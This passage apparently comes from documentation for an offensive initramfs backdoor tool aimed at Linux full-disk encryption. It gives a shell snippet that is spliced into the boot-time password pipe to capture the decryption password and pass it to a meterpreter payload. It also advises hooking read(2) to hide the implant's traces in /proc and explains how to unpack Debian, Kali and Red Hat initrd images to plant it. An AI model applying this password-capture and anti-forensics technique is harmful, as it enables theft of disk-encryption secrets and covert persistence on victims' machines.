 The important part for us is where the output of `$cryptkeyscript` is piped into `$cryptcreate`. `$cryptkeyscript` is the password asker, and `$cryptcreate` is the disk mounter. This pipe makes it very easy for us to attack. We insert the following code where the pipe is to write out the password to the end of our `.so`:

`(read P; echo -ne \\\\\\\\x00$P >> /OUR.SO; echo -n $P)`

This will read the password into the variable `$P`, and both write it to the end of the `.so` and echo it out again. This code will be transparent for the purposes of `$cryptkeyscript` and `$cryptcreate`, but it will have the site effect of exfiltrating the password. We use `\\\\\\\\x00` to prepend a null byte (accounting for many levels of shell escaping) to the password. This makes it much easier for our `.so` to read the password back, as it just needs to read backwards from the end of itself until it sees a null byte.

To provide this password to the attacker, it is used as an environmental variable in the invocation of the payload. This means that the attacker can just use the meterpreter command `getenv PASSWORD` to retrieve the password.

##### Artefacts

Due to the way the `.so` is being loaded, there will be references to it in both `/proc/1/maps` and `/proc/1/environ`.

The `maps` file is a list of loaded modules. The following excerpt shows the contents of this file. Note the `(deleted)`, could potentially raise suspicion. However, unlike normal binaries, it is not possible to access the `.so` without directly carving it out of memory after it has been deleted.

```
7f9ee8a56000-7f9ee8a58000 r-xp 00000000 00:06 9264                       /dev/hda1 (deleted)
7f9ee8a58000-7f9ee8c57000 ---p 00002000 00:06 9264                       /dev/hda1 (deleted)
7f9ee8c57000-7f9ee8c58000 rw-p 00001000 00:06 9264                       /dev/hda1 (deleted)
```

The `environ` file is a `NULL` separated list of environmental variables at invocation. Because it is from invocation this means that any modifications we make at runtime (unsetting `LD_PRELOAD`) will not be reflected.

In both of these cases, becuase we can be hooked into any and all system processes, we could just hook the `read(2)` function and remove any references to ourselves.

##### Kali
Kali is sort of a special case. It has the chained cpio as mentioned below, but doesn't use `systemd` to boot. As such, the `DRACUT` OS rule has been generalized such that it extracts blindly, and then the second OS detection catches Kali.

If you add an OS with a cpio containing only `kernel/x86/microcode/GenuineIntel.bin`, the `IDENTIFIER` rule should be for the appended cpio, as we will automatically find and extract it.

#### Redhat Based (Fedora, CentOS)

These systems have a different format for their initrd image compared to Debian based systems. The initrd files stored in `/boot` are an almost empty cpio archive, with a gzipped cpio archive appended. This second archive is the one containing the `initramfs`. To unpack this second archive it is necessary to parse the first cpio archive to find the end. Alternatively you can find the string `TRAILER!!!` and read on until you find gzip magic (`\x1f\x8b`).

Another difference of these systems is that they are systemd based, and as such the `/init` executable in the `initamfs` is a symlink to the `systemd` binary, rather than a flat `sh` script. To bypass this limitation, it is necessary to modify the `.service` files related to mounting the root filesystem.
